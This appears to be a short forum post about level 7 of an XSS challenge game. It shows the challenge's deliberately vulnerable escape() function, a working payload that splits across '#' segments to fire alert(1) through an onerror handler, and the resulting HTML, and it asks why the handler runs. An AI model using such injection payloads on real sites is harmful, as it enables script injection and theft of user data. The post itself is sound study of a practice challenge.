 # level 7

```js
function escape(input) {
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');
    return segments.map(function(title) {
        // title can only contain 12 characters
        return '<p class="comment" title="' + title.slice(0, 12) + '"></p>';
    }).join('\n');
}   
```
This was the payload i used, ```"><img src=#"onerror='/*#"*/alert(1)'``` the final code would be as follows

```html
<p class="comment" title=""><img src="></p>
<p class="comment" title=""onerror='/*"></p>
<p class="comment" title=""*/alert(1)'"></p>
```
the error fires on the img tag but how does the error event handler on documents.p[1] get called?


